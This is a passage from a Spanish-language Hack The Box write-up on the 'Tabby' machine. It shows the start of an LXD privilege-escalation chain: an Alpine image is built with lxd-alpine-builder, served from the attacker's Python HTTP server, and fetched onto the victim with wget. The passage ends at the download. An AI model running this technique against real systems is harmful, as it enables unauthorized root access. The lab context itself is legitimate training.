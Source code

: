 ```bash
└──╼ #./build-alpine       
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk 
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk                                                   Executing openrc-0.42.1-r10.post-install
(5/19) Installing alpine-conf (3.9.0-r1)
(6/19) Installing libcrypto1.1 (1.1.1g-r0)
(7/19) Installing libssl1.1 (1.1.1g-r0)
(8/19) Installing ca-certificates-bundle (20191127-r4)
(9/19) Installing libtls-standalone (2.9.1-r1)
(10/19) Installing ssl_client (1.31.1-r19)
(11/19) Installing zlib (1.2.11-r3)
(12/19) Installing apk-tools (2.10.5-r1)
(13/19) Installing busybox-suid (1.31.1-r19)
(14/19) Installing busybox-initscripts (3.2-r2)
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r9)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages
```

Nos crea un archivo `.tar.gz` y ahora lo que debemos hacer es crear un servidor http con Python.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby/lxd-alpine-builder]
└──╼ #ls
alpine-v3.12-x86_64-20200621_0334.tar.gz  build-alpine  LICENSE  README.md

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby/lxd-alpine-builder]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

En la máquina de la víctima, descargamos este archivo con `wget`

```bash
ash@tabby:~$ wget http://10.10.14.26:80/alpine-v3.12-x86_64-20200621_0334.tar.gz
<0.14.26:80/alpine-v3.12-x86_64-20200621_0334.tar.gz
--2020-06-21 08:51:53--  http://10.10.14.26/alpine-v3.12-x86_64-20200621_0334.tar.gz
Connecting to 10.10.14.26:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3109761 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200621_0334.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   2.96M   252KB/s    in 12s     

2020-06-21 08:52:05 (251 KB/s) - ‘alpine-v3.12-x86_64-20200621_0334.tar.gz’ saved [3109761/3109761]
```
